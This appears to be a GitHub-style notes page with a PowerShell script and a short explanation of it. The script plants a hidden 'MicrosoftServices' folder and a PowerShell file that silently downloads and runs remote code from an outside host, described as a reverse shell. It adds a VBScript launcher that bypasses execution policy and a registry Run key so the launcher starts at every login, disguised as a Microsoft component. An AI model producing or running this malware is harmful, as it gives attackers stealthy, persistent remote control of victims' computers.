 # Powershell commands 


## 1. Running the script on login

```
$documentsPath = [Environment]::GetFolderPath("MyDocuments")
$folderPath = Join-Path -Path $documentsPath -ChildPath "MicrosoftServices"

if (-not (Test-Path -Path $folderPath)) {
    New-Item -Path $folderPath -ItemType Directory | Out-Null
}

$xContent = @'
powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"
'@
$xPath = Join-Path -Path $folderPath -ChildPath "x.ps1"
Set-Content -Path $xPath -Value $xContent

# VBScript (y.vbs) content (fixed version)
$yContent = @'
Set objShell = CreateObject("WScript.Shell")
userProfile = objShell.ExpandEnvironmentStrings("%USERPROFILE%")
scriptPath = userProfile & "\Documents\MicrosoftServices\x.ps1"
objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptPath & """", 0, False
'@
$yPath = Join-Path -Path $folderPath -ChildPath "y.vbs"
Set-Content -Path $yPath -Value $yContent

Set-ItemProperty -Path $folderPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)
Set-ItemProperty -Path $xPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)
Set-ItemProperty -Path $yPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)

$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "MicrosoftServices"
$regValue = "wscript.exe `"$yPath`""

if (-not (Get-ItemProperty -Path $regPath -Name $regName -ErrorAction SilentlyContinue)) {
    New-ItemProperty -Path $regPath -Name $regName -Value $regValue -PropertyType String | Out-Null
}

Write-Host "1"
```
What this does:
- creating a hidden folder `MicrosoftServices` in the user's Documents folder (can be anywhere)
- adds a .ps1 script that contains the api call for the revershe Shell script
- adds a vbs script that runs the powershell script in the background
- creates a HKCU registry key that runs the vbs file
